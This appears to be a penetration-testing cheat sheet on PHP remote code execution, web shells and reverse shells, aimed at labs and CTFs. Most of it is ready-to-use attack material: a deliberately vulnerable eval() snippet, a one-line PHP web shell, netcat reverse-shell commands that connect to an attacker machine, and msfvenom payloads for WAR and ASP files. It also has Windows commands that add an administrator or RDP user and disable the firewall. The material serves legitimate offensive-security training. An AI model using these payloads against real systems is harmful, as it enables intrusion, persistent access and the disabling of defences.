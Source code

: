 # Remote code execution

Remote code execution \(RCE\), also known as code injection, refers to executing commands directly on the underlying operating system via the web application, in the language of the web application.

## Basic technique

The following php snippet will take the `GET` parameter `code` and run it through the `eval()` function without any input sanitization:

```text
<?php $code = $_GET['code'];
eval($code); ?>
```

The `eval()` function evaluates the contents as php code, which means we can provide any php code as an argument. The code injection would look like this:

```text
http://[host]/page.php?code=phpinfo();
```

## Remote command execution

You might also be able to execute single-line system commands like `system('id');`. For multi-line system commands, use `shell_exec`:

```text
http://[host]/page.php?code=echo shell_exec('/sbin/ifconfig eth0');
```

This method is useful for both system enumeration and shell injection. Make sure to use absolute paths for calling system files, or the web application may not find them.

## Shells
For most lab or CTF environments, the goal is to get some kind of command shell on the machine for further exploitation. Sometimes this simply means discovering SSH or remote desktop credentials and logging in. Other times, it's exploiting a web application to generate a reverse shell that connects to your attack machine and waits for instructions.

In real life I'm not sure how often reverse shells really happen, but they're fun to pull off in the lab.

If shells are a new concept, [this is a good primer](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/).

## Listeners
Your attack machine needs to have a listener running to catch a reverse shell connection. Make sure you specify the IP address of your attack machine and use a port that doesn't already have a service listening. If you need to use `python SimpleHTTPServer` or similar to transfer exploits, make sure that isn't running on the same port. 

### Netcat listener
Using ports 80 or 443 will help you get around egress filtering:
```
nc -lvp 443
```
### Meterpreter listener
You may prefer a Meterpreter listener if you're connecting to a Windows machine and want to take advantage of commands like `getsystem`, or you want to use local Metasploit exploits once you've connected to the remote machine.

Avoid using port 4444 since that is widely recognized as a Metasploit port:
```
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp # or whatever
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost [attack machine] # your IP address
lhost => [attack machine]
msf exploit(handler) > set lport 443
lport => 443
msf exploit(handler) > run
```

## Simple PHP web shell
Assuming you are able to put a file on the web server or edit an existing one (e.g. CMS template) this is the simplest type of shell:

```
<?php echo shell_exec($_GET['cmd']); ?>
```
You can use it for system commands: 
```
http://[host]/wordpress/index.php?cmd=id
```
You can also use it to create a reverse shell:
```
http://[host]/wordpress/?cmd=nc [attack machine] [port] -e /bin/sh
```
## PHP shell
This [PHP web shell from pentestmonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) is nice. Make sure to change the following variables before uploading:
```
$ip = '127.0.0.1';  # change to attack machine IP
$port = 1234;       # change to attack machine port
```
## Perl shell
I've never tried [a Perl shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell) because I've never encountered a Perl web server, but it's probably okay. 

As with the PHP shell, change the following variables:
```
my $ip = '127.0.0.1';
my $port = 1234;
```

## WAR shell
If you're able to access a Tomcat server's management interface, you can generate and upload a WAR file:
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[attack machine] LPORT=443 -f war > shell.war
```
You can fire the shell by clicking on the link in Tomcat's management interface, or by going to the appropriate URL (e.g. `http://[host]/shell/`)

## Windows
Windows is a little weird. If you encounter an IIS server, you can use msfvenom to create an `.asp` or `.aspx` payload:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[attack machine] LPORT=443 -f asp > shell.asp
```
You can also attempt to download `nc.exe`, then run: 
```
nc.exe -e cmd.exe [attack machine] [port]
```
If RDP is enabled (port 3389), you might be able to create a user and add them to the “Remote Desktop Users” group, then log in via remote desktop.

Add a user on windows:
```
net user $username $password /add
```
Add a user to the “Remote Desktop Users” group:
```
net localgroup "Remote Desktop Users" $username /add
```
Make a user an administrator:
```
net localgroup administrators $username /add
```
Disable Windows firewall on newer versions:
```
NetSh Advfirewall set allprofiles state off
```
Disable windows firewall on older windows:
```
netsh firewall set opmode disable
```
## Upgrading shell
You will use this line pretty often to fix your shells:
```
python -c 'import pty; pty.spawn("/bin/bash");'
```
To improve the shell further, use `Ctrl + Z` to background the reverse shell, then in your local machine run:
```
stty raw -echo
fg
```
Things are going to look really messed up at this point, just type `reset` and hit `Enter`. 

If the shell dimensions are wrong, background your shell, go to your local machine and run:
```
stty size
```
This should return two numbers, which are the number of rows and columns in your terminal. Assuming these numbers are `48 120`, return to your victim machine’s shell and run:
```
stty -rows 48 -columns 120
```
## Further reading
* [Reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [Creating Metasploit payloads](https://netsec.ws/?p=331)
